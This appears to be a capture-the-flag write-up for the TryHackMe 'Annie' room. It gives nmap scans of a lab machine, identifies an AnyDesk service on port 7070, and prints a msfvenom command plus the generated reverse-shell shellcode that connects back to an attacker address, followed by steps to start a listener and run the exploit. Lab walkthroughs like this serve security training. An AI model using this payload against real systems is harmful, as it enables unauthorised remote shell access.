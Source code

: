 # THM : Annie

Start with Full Nmap scan&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>> sudo nmap -p- -Pn -vv --open -T4 -v 10.10.76.41
</strong>PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 63
7070/tcp  open  realserver syn-ack ttl 63
40793/tcp open  unknown    syn-ack ttl 63
<strong></strong></code></pre>

**Run -A -> enable OS detection and version scanning**&#x20;

<pre class="language-bash"><code class="lang-bash">> sudo nmap -p22,7070,40793 -A -vv --open -T4 -v 10.10.76.41
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)                                                                                  
| ssh-hostkey:                                                                                                                                                                              
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)                                                                                                                              
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA0R7eKVAIQzgsQ1QLoI7zzRYcaNBJ0wZtCbG1n5lR51Jfr2CC6+IVVxzleo0wCtfV9tcgtRXVdrju+29xaBR/Hin16MAf7QM4cY5dt46pgADnbwSXAy8GpnuCT10tTrL27gpKM2ayqmlpnKSxL2daP5uhkuoZCI3EYOvbaoPn4/u4vKeH64bk/s5zTE2JeIV/CwQnheYc1ZhwiJQD5k11735k+NfhD7pmhN
Y+QpG6qZNyFZ4APqdktrnDFetksOkC2NF4D8/OOjDsYkmofeIe+2fe01BHO4KFnRrKI3aSNDQdeNIQIL7LgKufgQ+yP0WmRLOThsiwu22jUG/8Ot1f                                                                                                                         
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)                                                                                                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+EwC6q+M+qEr2TTccTtvcNF7dfougjgrZzZG4ShpTnNo1KXJy6iTnW/al9mxm/ecZVSF45w3Z3IYwAi9nfrdU=                          
|   256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)                                                                                                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBgcqbntpdHoH14/wXi5gysaIvv0hOk+VvCUNmVjhkMQ                                                                                                          
<strong>
</strong><strong>7070/tcp open  ssl/realserver? syn-ack ttl 63                                                                                                                                               
</strong>| ssl-cert: Subject: commonName=AnyDesk Client                                                                                                                                              
| Issuer: commonName= AnyDesk Client                                                                                                                                                         
| Public Key type: rsa                                                                                                                                                                      
| Public Key bits: 2048                                                                                                                                                                     
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                              
| Not valid before: 2022-03-23T20:04:30                                                                                                                                                     
| Not valid after:  2072-03-10T20:04:30                                                                                                                                                     
| MD5:   3e57 6c44 bf60 ef79 7999 8998 7c8d bdf0                                                                                                                                            
| SHA-1: ce6c 79fb 669d 9b19 5382 8cec c8d5 50b6 2e36 475b     
40793/tcp closed unknown reset ttl 63</code></pre>

Run sU -> UDP scan&#x20;

```bash
> sudo nmap -sU --open -T4 -v 10.10.76.41
PORT      STATE         SERVICE
50001/udp open|filtered unknown
50002/udp closed        unknown
50003/udp closed        unknown

```

Port **7070** running **AnyDesk Client**  from nmap scan in the <mark style="color:blue;">commonName</mark>&#x20;

searchsploit to find exploit&#x20;

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Edit the **IP** part to your Target IP & generte the Metasploit payload in the comment&#x20;

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```bash
 > sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.6.17 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode  
 
 Final size of python file: 680 bytes                                                                                                                                                        
shellcode =  b""                                                                                                                                                                            
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"                                                                                                                                
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x63\xe9\x12"                                                                                                                                
shellcode += b"\x8c\x1d\x33\x4c\x86\x48\x31\x58\x27\x48\x2d"                                                                                                                                
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x09\xc0\x4a\x15\x77"                                                                                                                                
shellcode += b"\x31\x13\xec\x62\xb7\x1d\x89\x55\xa4\x04\x3f"                                                                                                                                
shellcode += b"\x61\xe9\x03\xd0\x17\x3a\x4a\x97\x32\xa1\x9b"                                                                                                                                
shellcode += b"\x6a\x77\x23\x16\xec\x49\xb1\x1d\x89\x77\x30"                                                                                                                                
shellcode += b"\x12\xce\x9c\x27\x78\xad\x45\x3c\x49\xf3\x95"                                                                                                                                
shellcode += b"\x83\x29\xd4\x84\x7b\xf7\xa9\x01\x80\x7c\xa3"                                                                                                                                
shellcode += b"\x6e\x5b\x4c\xd5\x2b\x60\xf5\xde\x4a\x7b\xc5"                                                                                                                                
shellcode += b"\x60\x6c\xec\x12\x8c\x1d\x33\x4c\x86"         
```

replace the script bytes with the new one from **msfveom -> setup listener-> run the script**

****

